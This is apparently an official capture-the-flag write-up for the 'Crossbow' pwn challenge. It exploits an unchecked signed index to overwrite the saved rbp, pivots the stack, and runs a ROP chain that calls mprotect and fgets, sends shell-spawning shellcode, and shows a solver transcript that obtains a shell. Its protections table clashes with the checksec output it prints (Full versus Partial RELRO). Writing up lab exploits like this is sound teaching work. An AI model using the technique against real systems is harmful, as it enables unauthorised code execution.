

    	<font size="8">Crossbow</font>

​		26<sup>th</sup> Dec 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 


# Synopsis

Crossbow is an easy difficulty challenge that features abusing an Out-of-Bounds (OOB) write, stack pivot to bss and perform a rop chain with gadgets to call mprotect and then fgets to send the shellcode.

## Description

Sir Alaric's legendary shot can pierce through any enemy! Join his training and hone your aim to match his unparalleled precision.

## Skills Required

- Basic C, ROP.

## Skills Learned

- Understanding static binaries, perform intermediate ROP chains.

# Enumeration

First of all, we start with a `checksec` and a `file`:  

```console
╰─➤  file crossbow 
crossbow: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped

pwndbg> checksec
Arch:       amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
Debuginfo:  Yes
```

### Protections 🛡️

As we can see, it's a `statically` linked binary with these protections:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface:



### Disassembly

Starting with `main()`:

```c
004013ed  int64_t main()

004013ed  {
0040140e      setvbuf(&__stdin_FILE, 0, 2, 0);
0040142c      setvbuf(&__stdout_FILE, 0, 2, 0);
00401436      alarm(0x1312);
0040143b      banner();
00401445      training();
00401450      return 0;
004013ed  }
```

There is an interesting call to `training()`.

```c
0040136e  uint64_t training()

0040136e  {
004013a7      printf("%s\n[%sSir Alaric%s]: You only h…", 0);
004013b3      void var_28;
004013b3      target_dummy(&var_28);
004013ec      return printf("%s\n[%sSir Alaric%s]: That was q…", 0);
0040136e  }
```

Nothing but an intro function to `target_dummy()`.

```c
004011bf  void* target_dummy(void* arg1)

004011bf  {
004011fd      printf("%s\n[%sSir Alaric%s]: Select tar…", 0);
004011fd      
00401220      if (__isoc99_scanf("%d%*c", 0) != 1)
00401220      {
0040124f          printf("%s\n[%sSir Alaric%s]: Are you ai…", 0);
00401259          exit(0x520);
00401259          /* no return */
00401220      }
00401220      
0040126f      int32_t var_1c;
0040126f      void** idx = ((((int64_t)var_1c) << 3) + arg1);
00401282      *(uint64_t*)idx = calloc(1, 0x80);
00401282      
0040128b      if (*(uint64_t*)idx == 0)
0040128b      {
004012ba          printf("%s\n[%sSir Alaric%s]: We do not …", 0);
004012c4          exit(0x1b39);
004012c4          /* no return */
0040128b      }
0040128b      
004012f6      printf("%s\n[%sSir Alaric%s]: Give me yo…", 0);
00401321      void* result = fgets(*(uint64_t*)((char*)arg1 + (((int64_t)var_1c) << 3)), 0x80, &__stdin_FILE);
00401321      
00401329      if (result != 0)
0040136d          return result;
0040136d      
00401358      printf("%s\n[%sSir Alaric%s]: Is this th…", 0);
00401362      exit(0x45);
00401362      /* no return */
004011bf  }
```

As observed, the code allows an **out-of-bounds (OOB) write** because we have control over `idx`, the buffer index, and there is no validation for this value. Additionally, since `idx` is a signed integer, we can input negative values. By doing so, we can overwrite the saved `$rbp` value of the stack frame with a heap pointer to our input. Consequently, when the function concludes, the `leave` instruction will pivot the stack from its original state to the user-controlled input, effectively granting us control over the execution flow.

### Debugging 

If we enter an OOB value like `-2`, we see that we overwrite `rbp`. 

```gdb
[Sir Alaric]: Select target to shoot: -2

[Sir Alaric]: Give me your best warcry!!

> AAAABBBBCCCC

[Sir Alaric]: That was quite a shot!!


Program received signal SIGSEGV, Segmentation fault.
0x0000000a43434343 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────
*RAX  0x3d
 RBX  1
*RCX  0x3d
*RDX  0
*RDI  0x3d
*RSI  0
*R8   0x1c
*R9   0x3d
*R10  7
*R11  0x202
 R12  0x4013ed (main) ◂— endbr64 
 R13  0x7fffffffde78 —▸ 0x7fffffffe1e9 ◂— 'SYSTEMD_EXEC_PID=3636'
 R14  0
 R15  0
*RBP  0x4242424241414141 ('AAAABBBB')
*RSP  0x7ffff7ff8060 ◂— 0
*RIP  0xa43434343
─────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────
Invalid address 0xa43434343


──────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffff7ff8060 ◂— 0
... ↓        7 skipped
────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────
 ► 0      0xa43434343
   1              0x0
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```

Once we successfully pivot the stack to a user-controlled area, we can chain a ROP sequence using the available gadgets in the binary. Since the binary is statically linked, a `ret2libc` approach isn't an option. Instead, we need to craft an `execve("/bin/sh", NULL, NULL)` system call to achieve code execution. Before doing that, we need to make the `bss` executable, so we can store the payload there. We can call `mprotect` to do so.

```python
# mprotect
pl  = b'w3th4nds'
pl += p64(rop.rdi[0])
pl += p64(e.bss())
pl += p64(rop.rsi[0])
pl += p64(0x1000)
pl += p64(rop.rdx[0])
pl += p64(0x7)
pl += p64(e.sym.mprotect)
```

After that, we pivot to `bss` which is now executable and read the payload with `fgets`.

```python
# fgets
pl += p64(rop.rdi[0])
pl += p64(e.bss(off))
pl += p64(rop.rsi[0])
pl += p64(0x80)
pl += p64(rop.rdx[0])
pl += p64(e.sym.__stdin_FILE)
pl += p64(e.sym.fgets)
```

In the end, we send the `shellcode` to `bss` that is now executable due to `mrpotect` we called earlier.

```python
r.sendline(asm(shellcraft.sh()))
```

# Solution

```bash
Running solver remotely at 0.0.0.0 1337

[*] Gadgets:
	       pop rdi:    0x401d6c
	       pop rsi:    0x40566b
	       pop rdx:    0x401139
	       bss():      0x40e220
	       fgets:      0x401cc0
	       mprotect:   0x40a320
	       STDIN:      0x40e020
 
~~ Shell ~~


[Sir Alaric]: That was quite a shot!!

$ id
uid=100(ctf) gid=101(ctf) groups=101(ctf)
$ ls
crossbow
flag.txt
```

